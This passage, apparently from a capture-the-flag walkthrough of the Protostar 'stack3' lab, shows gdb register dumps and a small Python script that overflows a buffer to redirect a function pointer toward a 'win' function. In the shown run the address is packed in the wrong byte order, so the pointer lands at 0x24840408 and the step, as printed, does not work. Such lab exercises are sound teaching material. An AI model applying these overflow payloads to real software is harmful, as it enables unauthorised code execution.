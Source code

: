 ```css
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
(gdb) 
(gdb) x win
0x8048424 <win>:	0x83e58955


```

```css
user@protostar:/tmp$ python
Python 2.6.6 (r266:84292, Dec 27 2010, 00:02:40) 
[GCC 4.4.5] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> chr(0x52)
'R'
>>> 

```

again edit

```css
user@protostar:/tmp$ vi stack.py
user@protostar:/tmp$ cat stack.py 
padding = "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIKKKKLLLLMMMMNNNNOOOOPPPPQQQQ"
padding += "\x08\x04\x84\x24"    #0x8048424
print(padding)
user@protostar:/tmp$ python stack.py 
AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIKKKKLLLLMMMMNNNNOOOOPPPPQQQ�$
user@protostar:/tmp$ python stack.py > exp

```


```css
(gdb) r
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /opt/protostar/bin/stack3 < /tmp/exp
calling function pointer, jumping to 0x24840408

Breakpoint 1, 0x08048475 in main (argc=1, argv=0xbffff854) at stack3/stack3.c:22
22	in stack3/stack3.c
(gdb) info registers
eax            0x24840408	612631560
ecx            0x0	0
edx            0xb7fd9340	-1208118464
ebx            0xb7fd7ff4	-1208123404
esp            0xbffff740	0xbffff740
ebp            0xbffff7a8	0xbffff7a8
esi            0x0	0
edi            0x0	0
eip            0x8048475	0x8048475 <main+61>
eflags         0x200292	[ AF SF IF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
(gdb) 

```
